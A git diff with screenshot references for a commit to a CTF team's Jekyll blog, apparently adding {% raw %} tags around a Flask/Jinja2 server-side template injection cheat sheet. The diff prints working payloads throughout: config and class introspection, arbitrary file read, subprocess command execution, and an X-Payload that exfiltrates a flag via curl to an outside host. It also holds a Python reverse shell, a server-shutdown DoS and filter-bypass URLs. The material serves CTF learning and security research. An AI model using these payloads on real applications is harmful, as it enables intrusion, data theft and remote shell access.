

Before and after one commit to PequalsNP-team/pequalsnp-team.github.io, a Jekyll site: the page built from _posts/2018-09-03-flask-jinja2-ssti.md, in a window 1280 px wide and 1400 px high, scrolled down 2110 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
minor formatting fixes to the Flask & Jinja2 SSTI cheatsheet

````diff
--- a/_posts/2018-09-03-flask-jinja2-ssti.md
+++ b/_posts/2018-09-03-flask-jinja2-ssti.md
@@ -40,74 +40,95 @@ If you want to explore in major details their globals, here are the links to the
 #### Introspection
 You may conduct introspection with the `locals` object using `dir` and `help` to see everything that is available to the template context. You can also use introspection to reach every other application variable.  This [script]({{site.bloburl}}/assets/search.py) written by the [DoubleSigma](https://ctftime.org/writeup/10851) team will traverse over child attributes of request recursively.
 For example, if you need to reach the blacklisted `config` var you may access it anyway via:
+{% raw %}
 ```
 {{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
 ```
-
+{% endraw %}
 ### DoS
 The `request.environ` object is a dictionary of objects related to the server environment. One such item in the dictionary is a method named `shutdown_server` assigned to the key `werkzeug.server.shutdown`. Injecting `''` should be enough to shut down the server.
 
 ### Extract classes from the application
 Get all classes:
+{% raw %}
 ```
 {{ [].class.base.subclasses() }}
 ```
+{% endraw %}
+{% raw %}
 ```
 {{''.class.mro()[1].subclasses()}}
 ```
+{% endraw %}
 
 ### Arbitrary file read
 In our context we can't use `''.__class__` as it is outside of the sandbox. So we need an object which has a class inherited from object. We can then leverage the `<type 'file'>` class to read arbitrary file. While `open` is the built-in function for creating file objects, the file class is also capable of instantiating file objects, and if we can instantiate a file object then we can use methods like `read` to extract the contents.
 This injection will do the trick:
+{% raw %}
 ```
 {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read() }}
 ```
+{% endraw %}
 
 Mind that index numbers may vary (i.e. [4],[40]) according to the environment.
 
 ### Remote code execution
 ##### First method
 By using the `subprocess` class you may issue arbitrary commands. This may be version-dependent:
+{% raw %}
 ```
 {{config.items()[4][1].__class__.__mro__[2].__subclasses__()[229]([\"touch /tmp/test\"], shell=True) }}
 ```
+{% endraw %}
 ##### Second Method
 Luckily, the config object comes with a function `from_pyfile()` which reads, compiles and then executes a python file. We now write arbitrary payloads by passing `request.headers['X-Payload']` to the `write` function and sending the `X-Payload` header:
+{% raw %}
 ```
 GET /{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/pwn.py','w').write(request.headers['X-Payload'])}}-{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/pwn.py').read()}}-{{config.from_pyfile('/tmp/pwn.py')}} HTTP/1.1
 Host: chal.ctf.net
 [...]
 X-Payload: import os;a=os.system("curl http://chal:8080/flag > /tmp/pwn.log");os.system("curl http://pequalsnp-team.github.io:8081/{}".format(open("/tmp/pwn.log").read().encode("hex")))
 ```
+{% endraw %}
 You could alternatively use the reverse shell payload from the [pentest monkey's cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
+{% raw %}
 ```
 X-Payload: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
 ```
+{% endraw %}
 
 ### Filters bypass
 Generally, if there is a blacklist you can use `request.args.param` to retrieve the value of a new param passed with the querystring. Likewise, you may trim parts of the URL using `request.url[n:]` (e.g.  `{{request[request.url[-6:]]}}&a=config` ).
 I'll report some examples below:
 ##### Bypass the filtering on `__`:
+{% raw %}
 ```
 http://localhost:5000/?exploit={{request[request.args.param]}}&param=__class__
 ```
+{% endraw %}
 #####  Bypass the filtering on `.` or `[]`:
 Using [Jinja2 filters](http://jinja.pocoo.org/docs/2.10/templates/#list-of-builtin-filters) like `|attr()`:
+{% raw %}
 ```
 http://localhost:5000/?exploit={{request|attr(request.args.param)}}&param=__class__
 ```
+{% endraw %}
 Remember that you can always use the `__getitem__` to achieve the same, getting an item by key or index.
 
 ##### Generic blacklist evasion
 - Using the `|join` filter will concatenate a list of strings. Also, multiplication of a string with a number 'n' duplicates it 'n' times. You may use both tricks to get bypass.
 - You can also use the `.getlist()` function to simplify the building of the injection. The function returns a list of all parameters with a given name. In our case we define the name using the l parameter and the content of the list with several a parameters.
+{% raw %}
 ```
 http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
 ```
+{% endraw %}
 - There is another method to concatenate strings and with the `|format` filter. With the same query-string parameters `&a=_` we can form a format string that will result in `__class__`: `%s%sclass%s%s`. The `%s` identifiers will be replaced with the passed string:
+{% raw %}
 ```
 http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
 ```
+{% endraw %}
 - You may also use request.cookies, request.headers, request.environ, request.values to store blacklisted injection values.
 - For string concatenation, have a look-see at the `~` operator. `{{ "Hello " ~ name ~ "!" }}` would return (assuming _name_ is set to `'John'`): `Hello John!`.
 
@@ -118,6 +139,6 @@ http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args
 
 ### Useful links
 - Shrine challenge, TokyoWesterns CTF 2018 [Link](https://ctftime.org/writeup/10851)
-- Exploring SSTI in Flask/Jinja2 [Part 1](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html) | [Part 2](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)
+- Exploring SSTI in Flask/Jinja2 [Part 1](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html) / [Part 2](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)
 - Server-Side Template Injection: RCE for the modern webapp, J. Kettle [PDF Link](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
 - Jinja2 template injection filter bypasses, S. Neef [Link](https://0day.work/jinja2-template-injection-filter-bypasses/)
````
